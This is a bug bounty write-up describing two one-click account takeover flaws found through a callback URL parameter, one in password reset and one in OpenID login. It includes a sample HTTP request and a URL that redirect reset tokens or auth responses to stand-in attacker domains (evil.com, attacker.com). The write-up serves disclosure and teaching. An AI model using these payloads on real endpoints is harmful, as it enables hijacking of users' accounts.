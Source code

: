 # How a Single Parameter Led to Two ATO Cases

**Published:** May 18, 2024

Hey guys, Today, I'm excited to share an intriguing story about how a **single parameter** in an application led to two account takeover cases and earned me a **four-digit bounty**. The program is a private one on HackerOne, and I was among the first few hackers to get invited. I'll explain two bugs I found here. Both account takeover (**ATO**) cases are one-click exploits, meaning the victim only needed to perform a single interaction.

![Excited GIF](/images/excited.gif)

## Weakness in the Password Reset Functionality

I was testing the password reset functionality of this application and discovered an interesting parameter called `CallbackUrl` from the password reset request.

\`\`\`http
POST /auth/resetpassword HTTP/2
Host: api.example.com
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
Origin: https://app.example.com
Referer: https://app.example.com

{"Email":"victim@example.com","CallbackUrl":"https://evil.com/auth/reset-password"}
\`\`\`

When a user requests a password reset link, the server sends a request to the specified email with a password reset link that contains a token. However, I discovered that if an attacker changes the request parameter `CallbackUrl` to a domain that they control, the password reset link will be sent like `attacker.domain.com/auth/reset-password?token=token` to the user's email. **This means that the attacker can obtain the password reset token when the user clicks the link and use it to take over the user's account.**

![Password Reset Flow](/images/password-reset-flow.png)

**I reported the issues, and they marked the report as high severity and rewarded me with a $$$$ digit bounty.**

![Happy GIF](/images/happy.gif)

This discovery sparked my curiosity to dig deeper into the platform. I searched the application JavaScript for corresponding parameters and found that the same parameter is used in the **application's OAuth flow**.

## Account Takeover via Misconfigured OpenID

During my testing on the **OAuth** mechanism of the application, I got another security flaw that could potentially lead to One click account takeover. This vulnerability stems from a misconfiguration in the **OpenID** implementation, specifically in the `callbackUrl` parameter used in the authentication flow with various identity providers.

I discovered that an attacker could exploit this misconfiguration by manipulating the `callbackUrl` parameter by redirecting it to an attacker-controlled domain, malicious actors could intercept the authentication process and potentially gain unauthorized access to user accounts.

**For example:**

- Google: `https://api.example.net/openid/google?callbackUrl=https://attacker.com/auth/register`

Initiating the authentication process with the respective provider results in the authentication response being redirected to the **attacker's domain**.

Exploiting this vulnerability allows attackers to intercept authentication responses, potentially obtaining access tokens. The authentication response is redirected to the **attacker-controlled domain** specified in the modified `callbackUrl` parameter.

After reporting the issue, the team responded by explaining that they considered the reported vulnerability as part of the **previous** `callbackUrl` **fix**. They emphasized that their policy only allows for one bounty payment per bug and considered **duplicates** unacceptable. Despite their explanation, I reiterated my findings, emphasizing that the vulnerability persisted specifically in the `callbackUrl` of the Auth0 endpoint. I acknowledged their efforts in resolving the previous bug but urged them to consider this as a separate issue due to its potential risk of account takeover.

![HackerOne Discussion](/images/hackerone-discussion.png)

Following internal discussions, the team ultimately recognized the severity of the vulnerability and awarded me another **$$$$ digit bounty along with an exclusive swag pack** as a token of appreciation for bringing it to their attention.

![Success GIF](/images/success.gif)

**Thanks for taking the time to read through the write-up, and stay tuned for more insights and discoveries in the future**
